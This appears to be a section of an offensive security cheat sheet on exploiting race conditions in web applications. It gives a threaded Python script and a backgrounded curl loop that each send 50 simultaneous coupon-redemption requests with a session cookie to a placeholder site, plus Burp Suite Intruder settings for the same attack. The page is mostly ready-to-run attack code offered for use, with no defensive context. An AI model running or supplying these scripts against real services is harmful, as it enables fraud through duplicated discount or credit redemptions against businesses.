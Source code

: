 ## Exploitation Techniques

### Multi-threading Exploitation

```python
# Python script to exploit race condition in web app
import threading
import requests

url = "https://vulnerable-site.com/api/redeem-coupon"
data = {"code": "DISCOUNT50"}
headers = {"Cookie": "session=user_session_id"}

def exploit():
    response = requests.post(url, json=data, headers=headers)
    print(response.text)

# Create and start multiple threads
threads = []
for i in range(50):
    t = threading.Thread(target=exploit)
    threads.append(t)
    t.start()

# Wait for all threads to complete
for t in threads:
    t.join()
```

### Parallel HTTP Requests

#### Using Burp Suite Intruder

1. Capture the request in Burp
2. Send to Intruder
3. Clear all payload positions
4. Go to Options tab
5. Set "Number of threads" to maximum (e.g., 20)
6. Set "Request Engine" settings:
   - Concurrent requests: 20
7. Start attack with a single payload repeated multiple times

#### Using curl

```bash
# Bash script for concurrent requests
for i in {1..50}; do
    curl -X POST https://vulnerable-site.com/api/redeem-coupon \
         -H "Content-Type: application/json" \
         -H "Cookie: session=user_session_id" \
         -d '{"code":"DISCOUNT50"}' &
done
wait
```
